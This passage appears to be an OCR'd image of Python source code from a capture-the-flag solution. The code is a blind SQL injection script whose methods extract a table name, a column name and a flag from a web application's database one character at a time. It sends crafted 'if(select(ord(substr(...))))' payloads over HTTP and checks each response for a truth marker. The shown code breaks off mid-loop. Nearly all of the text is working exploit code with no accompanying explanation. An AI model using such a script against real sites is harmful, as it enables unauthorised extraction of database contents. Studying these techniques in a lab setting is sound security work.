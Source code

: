 ```python
    
    def getTableName(self):
        tmp_str = ""
        for i in range(8, self.table_length + 1):
            for letter in string.printable:
                query = f"if((select(ord(substr(min(concat(table_schema,table_name)),{i},1)))from(information_schema.tables))in({ord(letter)}),1,0)"
                resp = requests.get(self.url + query)
                print(letter)
                if self.true_factor in resp.text:
                    tmp_str += letter
                    print("Found", letter)
                    break
        
        self.table_name = tmp_str
        print(self.table_name)
    
    def getColumnNameLength(self):
        for i in range(1, 100):
            query = f"if((select(length(min(concat(table_schema,column_name))))from(information_schema.columns))in({i}),1,0)"
            resp = requests.get(self.url + query)
            if self.true_factor in resp.text:
                self.column_length = i
                break
        
        print(self.column_length)
    
    def getColumnName(self):
        tmp_str = ""
        for i in range(8, self.column_length + 1):
            for letter in string.printable:
                query = f"if((select(ord(substr(min(concat(table_schema,column_name)),{i},1)))from(information_schema.columns))in({ord(letter)}),1,0)"
                resp = requests.get(self.url + query)
                if self.true_factor in resp.text:
                    print("Found", letter)
                    tmp_str += letter
                    break
        
        self.column_name = tmp_str
        print(self.column_name)
    
    def getFlagLength(self):
        for i in range(1, 100):
            query = f"if((select(length(max({self.column_name})))from({self.table_name}))in({i}),1,0)"
            resp = requests.get(self.url + query)
            if self.true_factor in resp.text:
                self.flag_length = i
                break
                
        print(self.flag_length)
    
    def getFlag(self):
        tmp_str = "FLAG{"
        for i in range(6, self.flag_length + 1):
            for letter in string.printable:
                query = f"if((select(ord(substr(max({self.column_name}),{i},1)))from({self.table_name}))in({ord(letter)}),1,0)"
                resp = requests.get(self.url + query)
                if self.true_factor in resp.text:
                    print("Found", letter)
```